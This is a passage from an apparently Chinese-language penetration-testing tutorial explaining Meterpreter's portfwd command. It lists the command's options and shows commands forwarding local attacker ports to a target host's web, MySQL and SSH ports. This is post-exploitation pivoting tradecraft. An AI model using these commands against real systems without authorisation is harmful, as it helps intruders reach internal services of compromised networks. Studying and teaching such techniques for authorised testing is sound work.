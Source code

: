 ![image-20221224220350896](../../images//image-20221224220350896.png)



### 3.4 端口转发

在活动的meterpreter中，可通过portfwd进行端口转发

portfwd的参数:

```
Add：该参数用于创建转发。
Delete：这将从我们的转发端口列表中删除先前的条目。
List：这将列出当前转发的所有端口。
Flush：这将删除我们的转发列表中的所有端口。

-L：用于指定监听主机。 除非需要在特定网络适配器上进行转发，否则可以省略此选项。如果未输入任何值，则将使用0.0.0.0。
-h：显示以上信息。
-l：这是一个本地端口，它将在攻击机器上侦听。与此端口的连接将被转发到远程系统。
-p：TCP连接将转发到的端口。
-r：连接被中继到的IP地址（目标）
```

建立端口转发：

```
meterpreter > portfwd list
meterpreter > portfwd add -l 11180 -p 80 -r 172.16.1.5
meterpreter > portfwd add -l 13306 -p 3306 -r 172.16.1.5
meterpreter > portfwd add -l 11122 -p 22 -r 172.16.1.5
```
